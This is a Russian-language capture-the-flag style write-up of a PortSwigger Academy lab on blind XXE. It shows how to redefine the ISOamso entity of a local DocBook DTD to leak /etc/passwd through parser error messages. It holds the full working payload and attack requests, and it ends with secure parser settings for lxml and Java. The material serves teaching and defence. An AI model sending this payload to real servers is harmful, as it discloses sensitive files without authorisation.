



# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

**Платформа:** PortSwigger Web Security Academy  
**Категория:** XXE (XML External Entity)  
**Сложность:** Expert  
**Дата:** 2025-07-30  

---

## TL;DR
Функция «Check stock» парсит XML, но не отражает результат.
У сервера нет исходящего доступа в интернет — нельзя использовать
ни Collaborator (OOB), ни собственный вредоносный DTD на
exploit-сервере. Решение — **переиспользовать существующий на
диске системный DTD-файл** (`docbookx.dtd` от GNOME/Yelp),
переопределив в нём стандартную сущность `ISOamso` своей
вредоносной логикой. Файл сам вызывает эту сущность внутри себя,
что запускает цепочку чтения `/etc/passwd` и подстановки его
содержимого в путь к несуществующему файлу — парсер падает
с ошибкой, в тексте которой оказывается содержимое файла.

---


## Разведка

### Шаг 1 — Анализ запроса «Check stock»

На странице товара нажала **Check stock**, перехватила запрос
в Burp:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Ответ ничего не отражает — классический слепой сценарий.



### Шаг 2 — Почему обычные техники здесь не подходят

Попытка со своим внешним DTD (как в лабах с Collaborator/
exploit-сервером) не даёт никаких взаимодействий — у сервера
нет исходящего доступа наружу. Значит нужен способ добиться
error-based эксфильтрации, используя только то, что уже
существует локально на файловой системе сервера.

По подсказке лабы: на системах с GNOME почти всегда есть
файл `/usr/share/yelp/dtd/docbookx.dtd`, содержащий стандартную
сущность `ISOamso` (набор символьных сущностей ISO для DocBook).
Этот файл можно "перепрофилировать" под свои нужды.

---

## Эксплуатация

### Шаг 3 — Составление payload с переопределением ISOamso

```xml
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
      <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
      &#x25;eval;
      &#x25;error;
  '>
  %local_dtd;
]>
```

Разбор по шагам:

```
%local_dtd  — объявлена (указывает на путь к системному DocBook
              DTD), но ПОКА не вызвана

%ISOamso    — объявлена ЗАРАНЕЕ, до подключения local_dtd.
              Её значение — уже знакомая связка %file → %eval →
              %error (как в лабе про error-based эксфильтрацию):
              читаем /etc/passwd, подставляем содержимое в путь
              к несуществующему файлу, что вызывает ошибку
              с содержимым файла в тексте исключения

%local_dtd; — подгружаем содержимое docbookx.dtd. Внутри этого
              легитимного файла ЕСТЬ СВОЁ объявление сущности
              ISOamso, а дальше по тексту файла происходит
              её ВЫЗОВ (%ISOamso;), т.к. файл рассчитывает
              получить стандартный набор символов ISO
```

Ключевое правило XML: если сущность с одним именем объявлена
несколько раз — действует **первое** объявление, остальные
игнорируются. Так как мы объявили `%ISOamso` раньше, чем
подключили `local_dtd`, наше вредоносное определение "побеждает".
Когда файл `docbookx.dtd` сам вызывает `%ISOamso;` внутри себя,
срабатывает уже наша логика, а не оригинальный набор символов.


### Шаг 4 — Зачем двойное экранирование

```
&#x25;       — закодированный "%": откладывает разворачивание
               символа как начала имени сущности до момента,
               когда %ISOamso; будет вызвана изнутри docbookx.dtd

&#x26;#x25;  — закодированный "&", после раскодирования дающий
               буквальный текст "&#x25;" — то есть ссылка на "%"
               откладывается ЕЩЁ на один шаг разворачивания.
               Нужно из-за дополнительного уровня косвенности:
               здесь вызов идёт через ISOamso → local_dtd,
               то есть на один уровень вложенности больше,
               чем в прошлой лабе с error-based эксфильтрацией
```

### Шаг 5 — Отправка запроса

Вставила это определение между XML-декларацией и элементом
`stockCheck` в перехваченном запросе:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
      <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
      &#x25;eval;
      &#x25;error;
  '>
  %local_dtd;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Отправила через Burp Repeater.




### Шаг 6 — Получение содержимого файла из ответа

```
Ожидаемый результат в HTTP-ответе:
Сообщение об ошибке парсера с путём вида
/nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

В ответе приложения появилось сообщение об ошибке, содержащее
полное содержимое `/etc/passwd` — без единого исходящего
запроса во внешнюю сеть. Лаба решена.




---

## Итог

```
Проблема: сервер не имеет исходящего сетевого доступа →
          ни Collaborator, ни собственный exploit-DTD недоступны

Обход:    "перепрофилирование" уже существующего на диске
          системного DTD-файла (docbookx.dtd) — читаем его
          через file:///, а не http://

Приём:    объявляем свою версию сущности (ISOamso), которую
          подключаемый DTD сам вызывает внутри себя →
          из-за правила "первое объявление побеждает" срабатывает
          наша вредоносная логика вместо оригинальной

Результат: та же error-based эксфильтрация (%file → %eval →
           %error), что и в предыдущей лабе, но полностью
           локально, без единого исходящего соединения
```

### Почему это работает только при определённых условиях

```
Нужен:
- локальный DTD-файл с ПРЕДСКАЗУЕМЫМ путём (зависит от ОС/дистрибутива,
  установленных пакетов — например GNOME/Yelp на Linux)
- файл должен САМ ВЫЗЫВАТЬ хотя бы одну именованную сущность
  внутри себя (а не просто объявлять сущности, которые
  вызываются извне)
- имя этой сущности должно быть известно заранее (ISOamso —
  частый случай для DocBook DTD)

Если такого файла на сервере нет — техника не сработает,
и без исходящего доступа эксфильтрация станет практически
невозможной этим методом
```

---

## Защита

```python
# УЯЗВИМО — парсер разрешает file:// SYSTEM-ссылки на локальные
# DTD-файлы, даже при отключённой сети:
from lxml import etree
parser = etree.XMLParser(
    resolve_entities=True,
    no_network=True,   # блокирует http(s), но НЕ file://
)

# БЕЗОПАСНО — полностью отключить обработку DOCTYPE/DTD,
# независимо от схемы (file://, http://):
parser = etree.XMLParser(
    resolve_entities=False,
    no_network=True,
    dtd_validation=False,
    load_dtd=False,
)
```

```java
// УЯЗВИМО — DocumentBuilderFactory разрешает DOCTYPE
// со ссылками на локальные файлы:
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

// БЕЗОПАСНО — запретить DOCTYPE целиком:
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

Дополнительно:
- Отключать `DOCTYPE` целиком на уровне парсера — единственная
  надёжная защита; блокировка только исходящих сетевых
  соединений (`no_network`) НЕ покрывает `file://`-ссылки
  на локальные DTD
- Не полагаться на "сервер изолирован от интернета" как
  единственный барьер — как показывает эта лаба, локальные
  файлы на диске сами по себе являются достаточным источником
  для эксплуатации
- Мониторить/ограничивать список файлов, доступных процессу,
  обрабатывающему XML (принцип наименьших привилегий,
  контейнеризация, chroot/sandbox)
- Регулярно пересматривать окружение: наличие предсказуемых
  системных DTD-файлов (DocBook, XHTML DTD и т.п.) само
  по себе увеличивает поверхность атаки для XXE